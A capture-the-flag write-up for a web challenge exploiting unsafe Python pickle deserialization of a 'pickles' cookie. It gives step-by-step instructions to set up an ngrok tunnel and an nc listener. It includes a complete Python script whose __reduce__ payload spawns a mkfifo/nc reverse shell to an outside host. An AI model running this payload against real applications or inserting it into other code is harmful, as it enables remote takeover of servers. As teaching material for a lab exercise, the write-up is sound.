 # Name: Web: Exotic Attacks: Jar of Pickles

## Vulnerability

Unsafe usafe of Python3 `pickle` module.

## Exploit

The exploit involves opening a reverse shell. You'll need to:
1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Coming back to the challenge: click on the picture, it will take you to `/jar`.
Notice the `pickles` cookie.

Use `nc -nvlk 1234` in another terminal to open a connection on your internal port.

Then run this program that prints the encoded pickled object of this class that spawns a shell (change the IP to yours).

```python
import base64
import os
import pickle
import requests

NGROK_HOST = "" # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port

class RCE:
    def __reduce__(self):
        cmd = "rm -rf /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc %s %d > /tmp/f" % (NGROK_HOST, NGROK_PORT)

        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value.
Make the request again.
You should have a shell now in the `nc` terminal; perform a `cat` on the flag file.

Exploit in `../sol/solution.sh`.
